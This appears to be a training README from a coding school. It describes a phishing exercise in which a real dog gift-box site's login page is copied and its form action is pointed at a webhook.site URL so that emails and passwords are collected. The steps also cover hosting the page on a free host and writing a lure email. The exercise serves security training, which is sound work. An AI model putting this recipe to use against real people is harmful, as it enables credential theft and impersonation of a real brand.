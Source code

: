 # Bob has a dog (a bull terrier) named "Shimi". Bob really loves his dog.

1: Which site to use? https://woufbox.com/login

Well-known dog gift box website




2: Modify the script: view-source:https://woufbox.com/login

I've removed all the back-end stuff (<script> </script>)
and changed in <form> action by action=‘https://webhook.site/9a4773c6-71ae-452f-93ee-0197ba7354e7’>
which corresponds to the webhook link where the email and password will be saved.


file:///Users/flolaya/Downloads/TestPhisingDog.html


<img width="1440" alt="Capture d’écran 2024-05-15 à 12 26 31" src="https://github.com/FloretteSimon/BeCode/assets/155719677/fc3609fe-4e02-4e65-aafd-9f109b2d0c15">



<img width="1440" alt="Capture d’écran 2024-05-15 à 12 26 52" src="https://github.com/FloretteSimon/BeCode/assets/155719677/937cdcbb-7b9e-4e5b-9d71-e4fca21112fc">


3: Host the site

000webhost.com

Link https://himidogbobbob.000webhostapp.com/TestPhisingDog.html inside the html 


4: Create HTML for the mail:


<img width="1162" alt="Capture d’écran 2024-05-15 à 12 25 26" src="https://github.com/FloretteSimon/BeCode/assets/155719677/1cb0f208-16f9-4d01-a17a-d72b35937cd7">

<img width="1070" alt="Capture d’écran 2024-05-15 à 12 25 49" src="https://github.com/FloretteSimon/BeCode/assets/155719677/e8b5f395-47e8-4ca5-bb91-23fe7c615f6a">
